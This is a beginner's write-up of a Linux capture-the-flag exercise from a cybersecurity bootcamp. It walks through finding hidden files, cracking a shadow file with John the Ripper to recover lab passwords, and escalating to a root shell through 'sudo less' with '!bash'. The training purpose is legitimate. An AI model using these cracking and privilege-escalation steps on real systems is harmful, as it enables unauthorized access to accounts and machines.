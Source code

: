 # Linux Scavenger Hunt 
This CTF is the first one I ever did when I just started learning about Linux. It was hosted by the University of Toronto Cybersecurity Bootcamp in January 2025.

### **🚩flag\_1:**

*Finding this flag is imperative to moving on quickly, as it contains the passwords from users before they were hacked. Luckily, it doesn't have a great hiding spot.*

`grep -r "flag_1" /`

Flag_1 was located in `/home/student/Desktop/`. A hidden file. 
Could have simply navigated to the Desktop and ran `ls -la`.
### **🚩flag\_2:**

*A famous hacker had created a user on the system a year ago. Find this user, crack their password, and log in to their account.*

`home/student/Documents/my-files/shadow`

`john --wordlist=.pass_list.txt ../Documents/my-files/shadow`

`user: mitnick`
`Password: trustno1`

`su mitnick`
### **🚩flag\_3:**

*Find a log file related to the hacker's name and a zip file with additional info.Use a compound command to figure out the unique count of IP addresses in this log file. That number is a password.*  
    - *Hint: Use the unzip command to open any zip files you may find.*  
    - *Note: To unzip the zip file, use the unzip command.*

Found in `/var/log/mitnick.log`

`awk '{print $1}' mitnick.log | sort | uniq | wc -l`

`102`

### **🚩flag\_4:**

*Find a directory with a list of hackers. Look for a file that has read permissions for the owner, no permissions for groups, and executable only for everyone else.*

babbage/Documents/stallman = computer
woz = (nothing)
gates = (nothing)
gosling = (nothing)

`su stallman` Password: `computer`

### **🚩flag\_5:**

*This user is writing a Bash script, except it isn't quite working yet. Find it, debug it, and run it.*

`home/stallman/Documents/flag5.sh`

remove extra 'do' in the script and add ; then run it.

### **🚩flag\_6:**

*Inspect this user's custom aliases and run the suspicious one for the proper flag.*

### **🚩flag\_7:**

*Find an exploit to gain a root shell. Log in as the root user.*

`sudo less /etc/passwd`

`!bash`
hit enter
### **🚩flag\_8:**

*Gather each of the 7 flags into a file and format it as if each flag was a username and password.*

🚩🚩🚩 *Crack these passwords for the final flag.* 🚩🚩🚩


